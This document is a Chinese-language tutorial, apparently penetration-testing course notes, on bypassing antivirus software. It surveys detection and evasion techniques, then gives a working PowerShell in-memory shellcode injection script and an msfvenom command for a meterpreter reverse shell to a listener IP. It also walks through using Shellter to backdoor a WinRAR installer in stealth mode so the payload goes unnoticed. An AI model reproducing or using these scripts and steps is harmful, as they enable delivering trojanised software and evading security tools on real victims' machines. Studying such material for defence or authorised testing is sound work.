








# 绕过反病毒软件

防病毒（AV）是旨在防止，检测和删除恶意软件的应用程序类型。最初旨在仅删除计算机病毒。但是，随着其他类型恶意软件的发展，防病毒软件现在通常包括其他保护措施，例如防火墙，网站扫描仪等。

## 常见病毒检测技术

黑名单技术

> 防病毒签名是恶意软件中唯一标识它的连续字节序列。我们可以通过简单地更改或混淆已知恶意文件的内容来绕过基于签名的检测，以破坏标识字节序列（或签名）
> 基于签名的防病毒检测通常被认为是黑名单技术

启发式技术

> 基于启发式的检测 是一种依靠各种规则和算法来确定某个操作是否被视为恶意的检测方法。这通常是通过单步执行二进制文件的指令集或尝试反编译然后分析源代码来实现的。这个想法是寻找被认为是恶意的各种模式和程序调用（与简单的字节序列相对）

行为检测

> 可替代地，基于行为的检测,动态地分析二进制文件的行为。这通常是通过在仿真环境（例如小型虚拟机）中执行有问题的文件并查找被认为是恶意的行为或动作来实现的

## 磁盘存储型病毒的AV绕过

### 打包

> 避免检测的最早方法之一,使用压缩器打包
>
> 打包程序生成的可执行文件不仅较小，而且在功能上与全新的二进制结构等效。生成的文件具有新的签名，因此可以有效地绕过较早且更简单的AV扫描仪但仅使用UPX411和其他流行的打包程序仍不足以逃避现代AV扫描仪

### 混淆

> 包括用语义上等效的指令替换指令，插入不相关的指令或“死代码”,花指令，拆分或重新排序功能，等等。此技术主要由软件开发人员用来保护其知识产权，对于基于签名的AV检测也非常有效

### 加密

> “加密程序”软件以密码方式更改可执行代码，并添加了一个解密存根，该存根将在执行后恢复原始代码。该解密在内存中进行，仅将加密的代码保留在磁盘上。作为最有效的AV规避技术之一，加密已成为现代恶意软件的基础

### 软件保护

> 高效的防病毒规避除其他高级技术外，还需要结合所有先前的技术，包括防逆转，防调试，虚拟机仿真检测等。在大多数情况下，软件保护程序是出于合法目的而设计的，但也可以用于绕过AV检测


## 内存注入型病毒的AV绕过

### 远程过程内存注入

见实例部分

### 反射式DLL注入

> 不同于常规的DLL注入（使用LoadLibrary API从磁盘加载恶意DLL），此技术尝试将攻击者存储的DLL加载到进程内存中。实现此技术的主要挑战是LoadLibrary不支持从内存中加载DLL。此外，Windows操作系统也不公开任何可以处理此问题的API。选择使用此技术的攻击者必须编写自己的不依赖于基于磁盘的DLL的API版本。

### Process Hollowing 进程替换，傀儡进程

> 当使用傀儡进程绕过防病毒软件时，攻击者首先以挂起状态启动一个非恶意进程。启动后，该进程的映像将从内存中删除，并替换为恶意的可执行映像。最后，然后恢复该过程并执行恶意代码，而不是合法的过程

### Inline hooking 内联hook

> 顾名思义，该技术涉及修改内存并将钩子（重定向代码执行的指令）引入函数中，以将执行流指向我们的恶意代码。在执行我们的恶意代码后，该流程将返回到修改后的函数并恢复执行，似乎只执行了原始代码。

## 实例

### PowerShell In Memory Injection

> 在下面的示例中，我们将使用类似于“远程进程内存注入”部分中描述的技术。主要区别在于我们将以当前正在执行的过程为目标，在本例中将是PowerShell解释器
>
> 在下面的清单中，我们看到了执行内存注入的基本模板脚本

```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';
#该脚本首先从kernel32.dll以及从msvcrt.dll导入memset来导入VirtualAlloc和CreateThread。这些函数将使我们能够分配内存，创建执行线程以及将任意数据分别写入分配的内存

$winFunc =
	Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;
[Byte[]];
###########################
[Byte[]]$sc = <place your shellcode here>;	#替换成shellcode

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};
#然后，脚本使用VirtualAlloc分配一个内存块，获取$ scbyte数组中存储的有效负载的每个字节，然后使用memset将其写入新分配的内存块中

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
#最后一步，使用CreateThread在单独的线程中执行我们的内存写入有效负载。
```

替换shellcode

```bash
kali@kali:~$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f powershell
```

在部分用户运行时候会出现错误，导致这个错误的原因是因为用户的设置



让我们尝试查看和更改当前用户的政策。请注意，在这种情况下，我们选择更改策略，而不是基于每个脚本绕过它，这可以通过在运行每个脚本时使用-ExecutionPolicy Bypassflag来实现。

```powershell
C:\Users\offsec\Desktop> powershell
Windows PowerShellCopyright (C) 2015 Microsoft Corporation. All rights reserved.
PS C:\Users\offsec\Desktop> Get-ExecutionPolicy -Scope CurrentUser

Undefined

PS C:\Users\offsec\Desktop> Set-ExecutionPolicy -ExecutionPolicy 
Unrestricted -Scope CurrentUser

PS C:\Users\offsec\Desktop> Get-ExecutionPolicy -Scope CurrentUser

Unrestricted
PS C:\Users\offsec\Desktop> .\av_test.ps1

C:\Users\offsec\Desktop> powershell .\av_test.ps1

```

再次执行会在meterpreter监听获得shell

## Shellter

> Shellter是一个动态的Shellcode注入工具，是能够绕过防病毒软件的最受欢迎的免费工具之一。它使用多种新颖和先进的技术对带有恶意shellcode有效负载的有效且非恶意的可执行文件进行后门操作

由于Shellter被设计为可在Windows操作系统上运行，因此我们还将安装wine，兼容层，该层能够在多个POSIX兼容操作系统上运行win32应用程序。

```bash
kali@kali:~$ sudo apt install shellter
kali@kali:~$ apt install wine
```

安装完所有内容后，在终端上运行shellterin将为我们提供在wine下运行的新控制台



Shellter可以在“自动”或“手动”模式下运行。在“手动”模式下，该工具将启动我们要用于进样的PE，并允许我们在更精细的级别上对其进行操作。如果自动选择的选项失败，我们可以使用此模式高度自定义注入过程.

此例中使用自动。

接下来，我们必须选择目标PE。Shellter将分析和更改执行流程以注入并执行我们的有效负载。在此示例中，我们将使用流行的WinRAR utility的32位试用版可执行安装程序作为目标PE。shellter会帮助对原文件进行备份



Shellter一旦找到合适的位置来注入我们的有效负载，就会询问我们是否要启用隐身模式，437该模式将在我们的有效负载执行完毕后尝试恢复PE的执行流程。我们将选择启用Stealth Mode，因为我们希望WinRAR安装程序能够正常运行，以避免任何怀疑。

此时，我们将看到可用负载列表。这些包括流行的选择，例如meterpreter，但是Shellter还支持自定义有效载荷





设置本地ip，端口。



设置监听属性。



为了防止连接被kill掉，可以使用AutoRunScript配合migrate，让连接一但成功，立刻转移进程到稳定进程。



